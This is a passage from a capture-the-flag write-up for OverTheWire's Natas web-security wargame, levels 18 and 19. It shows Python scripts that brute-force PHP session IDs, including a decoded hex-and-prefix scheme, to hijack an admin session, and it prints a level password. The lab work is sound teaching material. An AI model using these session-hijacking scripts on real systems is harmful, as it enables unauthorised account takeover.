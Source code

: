 ```py
            print(str(i) + " admin account ")
        
            print(response.text)
        
            break
```
Quite straightforward, we have a `sess.post()` to let the server give a `PHPSESSID`. We then update our cookie to impersonate all possible IDs. Once we get a response which is not of a regular user, we get the password. I got the break for `PHPSESSID=119`.

Simple `GET` like `.../index.php?PHPSESSID=119` don't work. I guess because the cookies are not modified.

Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

# Level 19

URL: http://natas19.natas.labs.overthewire.org/

This level is similar to the last level, except for the fact that the IDs are not sequential. 

We analyse the way IDs are given:

```py
def analyse_PHPSESSID_generation_procedure():
    auth_username = 'natas19'
    auth_password = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
    _payload = {'username':'admin', 'password':'admin'}

    for _ in range(1):
        response = requests.post('http://natas19.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password), data= _payload)
        for cookie in response.cookies:
            print(cookie.value)
```

With a few tweaks to the `_payload`, the following facts are observed:

1. The ID is formed of two parts.

2. Suffix is hex coding of the username

3. The prefix takes a number from 1 to 461 and inserts 3 before each character. For 114, 313134

Since we are interested in logging as the admin, `2d61646d696e` becomes the suffix. Now brute force the prefix part.

```py
def brute_force_PHPSESSID():

    sess = requests.Session()
    auth_username = 'natas19'
    auth_password = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
    _payload = {'username':'admin', 'password':'admin'}

    response = sess.post('http://natas19.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password), data= _payload)    

    for i in range(1, 461):
        length = len(str(i))
        string_i = str(i)
        prefix = ""
        for i in range(length):
            prefix = prefix + "3" + string_i[i]
            
        cookie_value = prefix + "2d61646d696e"
        new_cookie = RequestsCookieJar()
```